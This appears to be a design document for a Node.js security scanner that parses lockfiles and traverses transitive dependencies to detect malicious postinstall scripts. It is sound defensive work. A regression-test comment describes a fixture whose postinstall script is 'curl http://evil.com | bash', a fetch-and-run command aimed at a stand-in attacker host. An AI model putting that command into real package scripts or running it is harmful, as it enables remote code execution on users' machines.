

# Design Document: Deep Dependency Scanner

## Overview

The DeepDependencyScanner extends the existing `PostInstallDetector` to analyze the full transitive dependency graph of a Node.js project. The 2025 postmark-mcp supply chain attack demonstrated that malicious `postinstall` scripts can be hidden in transitive dependencies — packages that are never listed directly in `package.json` but are pulled in by direct dependencies.

The design introduces three new components:

- **LockFileParser** — parses `package-lock.json` (v1/v2/v3) and `yarn.lock` (v1 and Berry) into a `DependencyGraph`
- **RateLimiter** — semaphore + token bucket to protect the npm registry from being overwhelmed
- **DeepDependencyScanner** — BFS graph traversal orchestrator that reuses all existing security infrastructure

The existing `PostInstallDetector`, `PatternMatcher`, `RiskScorer`, `IssueGenerator`, and `NPMRegistry` are reused without modification to their public interfaces. `NPMRegistry` gains one new method (`fetchPackageScripts`) that is additive only.

---

## Architecture

```mermaid
graph TD
    CLI["CLI (--deep-scan, --max-depth)"]
    PID["PostInstallDetector (existing)"]
    DDS["DeepDependencyScanner (new)"]
    LFP["LockFileParser (new)"]
    RL["RateLimiter (new)"]
    REG["NPMRegistry (extended)"]
    PM["PatternMatcher (existing)"]
    RS["RiskScorer (existing)"]
    IG["IssueGenerator (existing)"]

    CLI -->|deepScan()| DDS
    CLI -->|analyze()| PID
    DDS -->|parse()| LFP
    DDS -->|execute()| RL
    RL -->|fetchPackageScripts()| REG
    DDS -->|detectPatterns()| PM
    DDS -->|calculateScore()| RS
    DDS -->|createIssue()| IG
    DDS -->|delegate shallow| PID
```

### Sequence Diagram — Deep Scan Flow



---

## Components and Interfaces

### LockFileParser

**File:** `src/security/LockFileParser.ts`

```typescript
export type LockFileFormat = 'npm-v1' | 'npm-v2' | 'npm-v3' | 'yarn-v1' | 'yarn-berry';

export interface ParseResult {
  success: true;
  graph: DependencyGraph;
  format: LockFileFormat;
}

export interface ParseError {
  success: false;
  error: string;
  code: 'FILE_NOT_FOUND' | 'INVALID_JSON' | 'INVALID_SYNTAX' | 'UNSUPPORTED_FORMAT';
}

export type LockFileParseResult = ParseResult | ParseError;

export class LockFileParser {
  async parse(lockfilePath: string): Promise<LockFileParseResult>;
  async parseContent(content: string, format: LockFileFormat): Promise<LockFileParseResult>;
  serialize(graph: DependencyGraph): string; // for round-trip testing
  detectFormat(content: string): LockFileFormat | null;
  private parseNpmV1(data: Record<string, unknown>): DependencyGraph;
  private parseNpmV2V3(data: Record<string, unknown>): DependencyGraph;
  private parseYarnV1(content: string): DependencyGraph;
  private parseYarnBerry(content: string): DependencyGraph;
}
```

**npm v1 parsing strategy:** Recursively walk the `dependencies` object. Each key is a package name; the value has `version` and optionally nested `dependencies`.

**npm v2/v3 parsing strategy:** Walk the flat `packages` map. Keys are paths like `node_modules/foo` or `node_modules/foo/node_modules/bar`. The `requires` or `dependencies` field on each entry gives child relationships.

**yarn v1 parsing strategy:** Parse the custom Yarn v1 format (not JSON). Each block starts with quoted specifiers and contains `version` and `dependencies` fields.

**yarn Berry parsing strategy:** Parse YAML-like blocks. Each entry has `resolution`, `version`, and `dependencies`.

---

### RateLimiter

**File:** `src/security/RateLimiter.ts`

```typescript
export interface RateLimiterConfig {
  maxConcurrent: number;   // default: 20
  maxPerMinute: number;    // default: 80
}

export class RateLimiter {
  constructor(config?: Partial<RateLimiterConfig>);
  execute<T>(fn: () => Promise<T>): Promise<T>;
  getStats(): { queued: number; active: number; completedInWindow: number };
}
```

**Algorithm — Semaphore + Token Bucket:**

```
Semaphore (maxConcurrent):
  - activeCount: number = 0
  - queue: Array<() => void> = []
  - acquire(): waits until activeCount < maxConcurrent, then increments
  - release(): decrements activeCount, dequeues next waiter if any

Token Bucket (maxPerMinute):
  - tokens: number = maxPerMinute
  - windowStart: number = Date.now()
  - consume(): if tokens > 0, decrement and proceed
               else wait until windowStart + 60_000, reset tokens, retry

execute(fn):
  1. consume token (may wait for next window)
  2. acquire semaphore slot (may wait for slot)
  3. run fn()
  4. release semaphore slot (in finally)
```

The token bucket resets on a fixed 60-second window (not a sliding window) for simplicity and predictability.

---

### NPMRegistry Extension

**File:** `src/services/NPMRegistry.ts` — additive change only

```typescript
// New method added to existing NPMRegistry class:
async fetchPackageScripts(
  name: string,
  version: string
): Promise<Record<string, string> | null>
```

**Implementation:** `GET https://registry.npmjs.org/{name}/{version}` returns full package metadata. The `scripts` field is extracted and returned. Returns `null` on 404 or network error (graceful degradation). Uses the existing retry logic and cache keyed on `${name}@${version}`.

---

### DeepDependencyScanner

**File:** `src/security/DeepDependencyScanner.ts`

```typescript
export interface DeepScanOptions {
  mode?: 'shallow' | 'deep';       // default: 'shallow'
  maxDepth?: number;                // default: 3
  checkNPMRegistry?: boolean;       // default: true
}

export interface ScanStats {
  analyzed: number;
  cached: number;
  errors: number;
  unverified: number;
  durationMs: number;
  cacheHits: number;
  cacheMisses: number;
}

export interface DeepScanResult {
  issues: Issue[];
  stats: ScanStats;
  paths: Map<string, string[][]>;  // packageKey -> all dependency paths
}

export class DeepDependencyScanner {
  constructor(
    private readonly registry: NPMRegistry,
    private readonly parser: LockFileParser,
    private readonly patternMatcher: PatternMatcher,
    private readonly riskScorer: RiskScorer,
    private readonly issueGenerator: IssueGenerator,
    private readonly postInstallDetector: PostInstallDetector,
    private readonly rateLimiter: RateLimiter
  );

  async deepScan(
    packageJsonPath: string,
    lockfilePath: string | null,
    options?: DeepScanOptions
  ): Promise<DeepScanResult>;

  private async scanDeep(
    graph: DependencyGraph,
    options: Required<DeepScanOptions>
  ): Promise<DeepScanResult>;

  private async analyzePackage(
    node: DependencyNode,
    path: string[]
  ): Promise<Issue | null>;

  private buildTransitiveIssue(
    baseIssue: Issue,
    paths: string[][],
    depth: number,
    directDep: string
  ): Issue;
}
```

---

## Data Models

```typescript
// src/security/deep-scan-types.ts

export interface DependencyNode {
  name: string;
  version: string;          // exact version, e.g. "1.2.3"
  depth: number;            // 0 = root, 1 = direct dep, etc.
  path: string[];           // ["root", "express", "qs", "this-package"]
  children: DependencyNode[];
}

export interface DependencyGraph {
  root: DependencyNode;
  nodes: Map<string, DependencyNode>;  // key: "${name}@${version}"
  cycles: string[][];                  // each cycle as ordered list of package keys
}

export interface TransitiveIssueContext extends IssueContext {
  depth: number;
  dependencyPath: string[];   // full path from root to suspicious package
  directDependency: string;   // the depth=1 package responsible
}
```

**Cache key strategy:** `${name}@${version}` — e.g., `"lodash@4.17.21"`. This ensures exact version pinning and avoids false cache hits across versions.

**BFS traversal algorithm:**

```
function bfsTraverse(graph, maxDepth):
  queue = [(root, depth=0, path=["root"])]
  visited = Set<string>()          // keys already enqueued
  analysisCache = Map<string, Issue | null>()  // keys already analyzed

  while queue not empty:
    (node, depth, path) = dequeue

    if depth > maxDepth: continue
    if node.key in visited: continue  // cycle or dedup
    visited.add(node.key)

    if depth > 0:  // skip root itself
      if node.key in analysisCache:
        cacheHits++
        reuse result, record path
      else:
        cacheMisses++
        issue = await analyzePackage(node, path)
        analysisCache.set(node.key, issue)

    for child in node.children:
      if child.key not in visited:
        enqueue(child, depth+1, path + [child.name])
```

**Multi-path deduplication:** When the same `(name, version)` is reachable via multiple paths, a single `Issue` is generated. All paths are collected in `paths: Map<string, string[][]>` and merged into the issue description.

---

## Correctness Properties

*A property is a characteristic or behavior that should hold true across all valid executions of a system — essentially, a formal statement about what the system should do. Properties serve as the bridge between human-readable specifications and machine-verifiable correctness guarantees.*

### Property 1: LockFile Round-Trip

*For any* valid `DependencyGraph`, serializing it to a lockfile format and then parsing it back should produce a graph with the same nodes, exact versions, and parent-child relationships.

**Validates: Requirements 1.1, 1.2, 1.3, 1.6, 1.7, 2.1, 2.2, 3.1**

---

### Property 2: Invalid Lockfile Returns Structured Error

*For any* string that is not valid JSON (for npm lockfiles) or not valid Yarn lock syntax (for yarn lockfiles), `LockFileParser.parse()` should return a `ParseError` result (not throw) with a non-empty `error` message.

**Validates: Requirements 1.4, 2.3**

---

### Property 3: Direct Dependencies Assigned Depth 1

*For any* `package.json` with a non-empty `dependencies` or `devDependencies` field, every package listed there should appear in the `DependencyGraph` at `depth = 1`.

**Validates: Requirements 3.2**

---

### Property 4: Deduplication — Each Package Analyzed At Most Once

*For any* `DependencyGraph` where the same `(name, version)` pair appears at multiple nodes, the scanner should call `NPMRegistry.fetchPackageScripts` for that pair exactly once, regardless of how many paths lead to it.

**Validates: Requirements 3.3, 6.1, 6.2, 6.3**

---

### Property 5: Cycle Detection Terminates Traversal

*For any* `DependencyGraph` that contains a cycle (a path from a node back to itself), BFS traversal should terminate in finite time and the cycle should be recorded in `DependencyGraph.cycles`.

**Validates: Requirements 3.4, 3.5**

---

### Property 6: Depth Limiting Respected

*For any* `maxDepth = N` and any `DependencyGraph`, no package at `depth > N` should appear in the scan results or trigger a registry call.

**Validates: Requirements 4.2, 4.3, 4.4**

---

### Property 7: Issue Metadata Completeness

*For any* `Issue` generated by `DeepDependencyScanner` in deep mode, the `description` field should contain both the `ScanDepth` of the suspicious package and the full `DependencyPath` from root to that package, and the first element of the path after root should be a direct dependency (`depth = 1`).

**Validates: Requirements 4.5, 4.6, 9.1, 9.2, 9.3**

---

### Property 8: Rate Limiter Invariants

*For any* sequence of N concurrent requests submitted to `RateLimiter`, at no point in time should more than `maxConcurrent` requests be executing simultaneously, and the total number of requests completed within any 60-second window should not exceed `maxPerMinute`.

**Validates: Requirements 5.1, 5.2, 5.3, 5.4, 5.5**

---

### Property 9: Scan Idempotence

*For any* `packageJsonPath` and `lockfilePath`, running `DeepDependencyScanner.deepScan()` twice in the same session with the same options should produce the same set of issues (same IDs excluded, same messages and paths).

**Validates: Requirements 6.4**

---

### Property 10: Cache Stats Accounting

*For any* completed scan, `stats.cacheHits + stats.cacheMisses` should equal the total number of unique `(name, version)` pairs encountered during traversal, and `stats.analyzed + stats.errors + stats.unverified` should equal the total number of packages for which analysis was attempted.

**Validates: Requirements 6.5, 13.4**

---

### Property 11: Multi-Path Issue Deduplication

*For any* `DependencyGraph` where a suspicious package is reachable via K distinct paths (K ≥ 2), `DeepDependencyScanner` should generate exactly one `Issue` for that package, and the issue description should reference all K paths.

**Validates: Requirements 9.5**

---

### Property 12: Graceful Degradation on Registry Failure

*For any* set of packages where a subset fails with a network error or timeout, the scan result should still contain valid issues for the packages that succeeded, and each failed package should appear in `stats.unverified` (not `stats.errors` for timeouts, `stats.errors` for hard failures).

**Validates: Requirements 13.1, 13.3**

---

### Property 13: Remediation Suggestion References Direct Dependency

*For any* `Issue` generated for a transitive package at `depth ≥ 2`, the `suggestion` field should contain the name of the direct dependency (`depth = 1`) that is responsible for pulling in the suspicious package.

**Validates: Requirements 9.4**

---

## Error Handling

### LockFileParser

| Condition | Behavior |
|---|---|
| File not found | Returns `ParseError { code: 'FILE_NOT_FOUND' }` |
| Invalid JSON | Returns `ParseError { code: 'INVALID_JSON' }` |
| Invalid Yarn syntax | Returns `ParseError { code: 'INVALID_SYNTAX' }` |
| Unknown lockfileVersion | Returns `ParseError { code: 'UNSUPPORTED_FORMAT' }` |

### DeepDependencyScanner

| Condition | Behavior |
|---|---|
| No lockfile found | Emits warning, falls back to shallow mode via `PostInstallDetector` |
| Both lockfiles present | Uses `package-lock.json`, logs info |
| Registry call fails (network) | Marks package as `unverified`, continues scan |
| Registry call times out | Marks package as `unverified` with `severity: 'warning'` |
| Corrupted lockfile | Returns `DeepScanResult` with error, zero issues, no partial results |
| >50% packages fail | Emits connectivity warning in `stats`, suggests retry |
| `maxDepth = 0` | Returns empty `DeepScanResult` immediately |

### NPMRegistry.fetchPackageScripts

| Condition | Behavior |
|---|---|
| 404 Not Found | Returns `null` |
| Network error | Returns `null` after retry exhaustion |
| Timeout | Returns `null` |
| Missing `scripts` field | Returns `{}` (empty object) |

---

## Testing Strategy

### Dual Testing Approach

Both unit tests and property-based tests are required. Unit tests cover specific examples, integration points, and edge cases. Property-based tests verify universal correctness across all inputs.

### Property-Based Testing Library

Use **fast-check** (`npm install --save-dev fast-check`) for TypeScript property-based testing.

Each property test must run a minimum of **100 iterations** and be tagged with a comment referencing the design property:

```typescript
// Feature: deep-dependency-scanner, Property 1: LockFile Round-Trip
fc.assert(fc.asyncProperty(arbDependencyGraph, async (graph) => {
  const serialized = parser.serialize(graph);
  const result = await parser.parseContent(serialized, 'npm-v2');
  expect(result.success).toBe(true);
  expect(graphsEquivalent((result as ParseResult).graph, graph)).toBe(true);
}), { numRuns: 100 });
```

### Property Test Mapping

| Property | Test file | fast-check arbitraries needed |
|---|---|---|
| P1: Round-trip | `LockFileParser.property.test.ts` | `arbDependencyGraph` |
| P2: Invalid input → error | `LockFileParser.property.test.ts` | `fc.string()` filtered to invalid JSON |
| P3: Direct deps at depth=1 | `DeepDependencyScanner.property.test.ts` | `arbPackageJson`, `arbLockFile` |
| P4: Deduplication | `DeepDependencyScanner.property.test.ts` | `arbGraphWithDuplicates` |
| P5: Cycle detection | `DeepDependencyScanner.property.test.ts` | `arbGraphWithCycles` |
| P6: Depth limiting | `DeepDependencyScanner.property.test.ts` | `fc.integer({ min: 0, max: 10 })`, `arbDependencyGraph` |
| P7: Issue metadata | `DeepDependencyScanner.property.test.ts` | `arbSuspiciousGraph` |
| P8: Rate limiter | `RateLimiter.property.test.ts` | `fc.integer({ min: 1, max: 100 })` |
| P9: Idempotence | `DeepDependencyScanner.property.test.ts` | `arbDependencyGraph` |
| P10: Cache stats | `DeepDependencyScanner.property.test.ts` | `arbDependencyGraph` |
| P11: Multi-path dedup | `DeepDependencyScanner.property.test.ts` | `arbMultiPathGraph` |
| P12: Graceful degradation | `DeepDependencyScanner.property.test.ts` | `arbPartialFailureGraph` |
| P13: Remediation suggestion | `DeepDependencyScanner.property.test.ts` | `arbTransitiveIssue` |

### Unit Tests

Unit tests focus on:

- **LockFileParser**: specific npm v1, v2, v3, yarn v1, yarn Berry fixture files
- **RateLimiter**: boundary conditions (exactly at limit, one over limit)
- **DeepDependencyScanner**: postmark-mcp regression test (Requirement 10), shallow mode backward compatibility, CLI flag integration
- **NPMRegistry.fetchPackageScripts**: mock HTTP responses for scripts field present/absent/404

### Regression Test — postmark-mcp Attack

```typescript
// tests/security/DeepDependencyScanner.regression.test.ts
it('detects postmark-mcp attack pattern at depth=2', async () => {
  // Arrange: direct dep "postmark" → transitive dep "evil-pkg@1.0.0"
  // evil-pkg has postinstall: "curl http://evil.com | bash"
  const result = await scanner.deepScan('fixtures/postmark-project/package.json',
    'fixtures/postmark-project/package-lock.json', { mode: 'deep', maxDepth: 3 });

  const transitiveIssue = result.issues.find(i =>
    i.description.includes('evil-pkg') && i.description.includes('depth: 2'));
  expect(transitiveIssue).toBeDefined();
  expect(transitiveIssue!.severity).toBe('error');
  expect(transitiveIssue!.description).toContain('root → postmark → evil-pkg');
});

it('shallow mode does NOT detect depth=2 attack', async () => {
  const result = await scanner.deepScan('fixtures/postmark-project/package.json',
    null, { mode: 'shallow' });
  expect(result.issues.filter(i => i.description?.includes('evil-pkg'))).toHaveLength(0);
});
```

### CLI Integration

```typescript
// cli/index.ts additions to the 'analyze' command:
.option('--deep-scan', 'Enable transitive dependency analysis')
.option('--max-depth <n>', 'Maximum dependency depth to analyze (default: 3)', '3')
```

When `--deep-scan` is provided:
1. Locate `package-lock.json` or `yarn.lock` relative to the analyzed file
2. Instantiate `DeepDependencyScanner` with default `RateLimiter`
3. Call `deepScan()` with `mode: 'deep'` and parsed `maxDepth`
4. Display total transitive deps analyzed in summary
5. For each issue, display the full `DependencyPath` from the description
6. If no lockfile found, print warning and continue in shallow mode
